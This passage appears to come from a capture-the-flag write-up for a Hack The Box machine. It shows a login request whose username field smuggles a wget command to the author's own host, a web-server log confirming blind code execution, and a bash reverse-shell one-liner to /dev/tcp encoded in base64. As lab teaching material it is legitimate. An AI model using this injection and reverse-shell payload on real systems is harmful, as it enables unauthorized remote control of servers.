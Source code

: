 ![Forward to Login](/assets/images/2023/09/Sau/ForwardToLogin.png "Forward to Login")

I tried running `id`, but it only replied with 'Login failed', so I did not know if it worked. I tried sending a request to my machine.


```http
POST /rg7my1z HTTP/1.1
Host: target.htb:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://target.htb:55555/web/j4gxx67
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

username=;`wget+10.10.14.48`
```

I got a hit on my web server.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.98.107 - - [30/Sep/2023 10:02:44] "GET / HTTP/1.1" 200 -
```

I knew I had code execution. I created a payload to start a reverse shell, making sure I did not have any special characters in it.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.48/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDgvNDQ0NCAwPiYxICAK
```
